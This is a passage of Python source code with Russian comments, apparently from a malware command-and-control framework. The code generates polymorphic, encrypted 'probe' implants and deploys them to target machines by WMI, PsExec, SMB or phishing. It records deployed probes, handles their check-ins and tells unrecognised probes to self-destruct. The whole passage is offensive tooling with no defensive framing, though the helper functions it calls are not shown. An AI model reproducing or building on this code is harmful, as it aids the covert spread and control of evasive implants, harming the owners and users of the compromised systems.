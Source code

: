         # Генерируем полиморфный код зонда
        probe_code = self.poly_generator.generate(config)
        
        # Шифруем и подготавливаем зонд к отправке
        encrypted_probe = self.encrypted_channel.encrypt(probe_code)
        
        return {
            "probe_id": config.probe_id,
            "target": target,
            "payload": encrypted_probe,
            "config": config
        }
    
    def deploy_probe(self, target, method="auto"):
        """Развертывает зонд на целевой системе"""
        # Генерируем зонд для цели
        probe_data = self.generate_probe(target)
        
        # Выбираем метод доставки
        if method == "auto":
            method = self.determine_best_delivery_method(target)
        
        # Доставляем зонд
        if method == "wmi":
            success = self.deploy_via_wmi(target, probe_data)
        elif method == "psexec":
            success = self.deploy_via_psexec(target, probe_data)
        elif method == "smb":
            success = self.deploy_via_smb(target, probe_data)
        elif method == "phishing":
            success = self.deploy_via_phishing(target, probe_data)
        else:
            raise ValueError(f"Unknown deployment method: {method}")
        
        if success:
            self.active_probes[probe_data["probe_id"]] = {
                "target": target,
                "status": "deployed",
                "deployment_time": time.time(),
                "last_check_in": None,
                "config": probe_data["config"]
            }
        
        return success
    
    def handle_probe_check_in(self, probe_id, data):
        """Обрабатывает данные от зонда"""
        if probe_id not in self.active_probes:
            return {"command": "self_destruct"}
        